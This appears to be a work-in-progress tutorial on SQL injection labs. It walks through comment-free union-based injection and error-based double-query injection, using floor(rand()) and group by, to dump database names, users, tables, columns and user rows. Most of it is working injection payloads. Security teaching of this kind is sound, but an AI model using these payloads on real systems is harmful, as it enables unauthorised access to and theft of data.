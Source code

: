 # WIP LESSON 5 to

Part 5 from here

This time we're not allowed to use comments,consider there is a system which filters out the comments.

Consider our query looks like this

select id,username,password from table where id='1'.

So consider our input as 1' or '1

so it'll be,
select id,username,password from table where id='1' or '1'

So here '1' or '1' will be evaluated and 1 will be returned which will fetch all the username and password from the database but the website will only display the first row

When we give input as 1' and '1 the first page gets shown and when we give input as 2' and ' the second page gets shown because the AND operator works in sql, here it'll check if 2 is present in the table if it is it'll return true because the right side of AND is true.

lets try to enumerate the number of columns from this using order_by as earlier, but no matter what we give to order_by like order by(50) it wouldn't display any error because order by won't work without any comments(why?)

But we'll workaround this using union select 

we'll give something like 1' union select 1 AND '1, we'll get an error saying that the number of columns are different, we can use this get the number of columns in database.

1' union select 1,2,3 AND '1 -> No error , means there are 3 columns, now we have to break the right query as before so we'll inject something like this 50' union select 1,2,3 AND '1, Now we can enumerate a number of stuff like database names,version,current_user etc

50' union select 1,version(),3 AND '1

Part 6 from here

Unlike the previous levels in here we'll see that changing the id parameter, won't give us any valuable output the only thing we get is the error when mysql crashes so we somehow need to use the mysql error to our advantage.

So if we have a query like this select table_name,table_schema from information_schema.tables group by table_schema, Here we will get a table showing unique entries of table_schema(ie table names,basically what group by does).

From here on we'll be creating a bunch of sub queries.

select database();

select select(database());

select concat((select database()));

select concat(0x3a,0x3a,(select database()),0x3a,0x3a);

Here 0x3a denotes the value of colon(:) in hex.

select concat(0x3a,0x3a,(select database()),0x3a,0x3a) as a;

Adding in some randomness

select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2)) as a;

Also we can do something like this

select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2)) as a from information_schema.tables; -> This will print the output of our query the same number of times as the total number of rows in the table.

Same stuff

select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2)) as a from information_schema.tables; 

Now we'll add a count and a group by statement like this

select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2)) as a from information_schema.tables; 

Doing the same for columns we get 

select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns;

While running this a couple of times we'll get an error which actually shows the output of ```select database()``` interesting now we can enumerate all kinds of info like the user()

select count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns;

We can even get the table names as follows 

select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema = database() limit 0,1),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns;

### Having doubts regarding as why it does that?

Now lets apply this stuff to the frontend 

so our complete payload would look this(first try)

' AND (select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema = database() limit 0,1),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns) --+  [The entire query needs to enclosed in a curly bracket as it's a parameter for the AND operator]

And we get an error => Operand should contain 1 column(s)

the right side of AND statement is returning a table containing two columns 

we can reduce it to only one column containing a lot of ones to fix this 

' AND (select 1 from(select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema = database() limit 0,1),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns)) --+

Now we get a new error => Every derived table must have its own alias

lets do that,


' AND (select 1 from(select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema = database() limit 0,1),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns group by a) as b) --+

and we get an error which out puts the first table name we can change the limit to get the names of the remaining tables.[The query didn't work with group by]

And hence we can get all other information just by changing the sub query.

like the current_user

' AND (select 1 from(select count(*),concat(0x3a,0x3a,(select current_user),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns group by a) as b) --+

Now we can get the column name as well

' AND (select 1 from(select count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns group by a) as b) --+

Now we have  table and columns value we can now get the data.

' AND (select 1 from(select count(*),concat(0x3a,0x3a,(select id from users limit 0,1),0x3a,0x3a,floor(rand()*2)) as a from information_schema.columns group by a) as b) --+

by changing the limit value we can get the whole databases very interesting......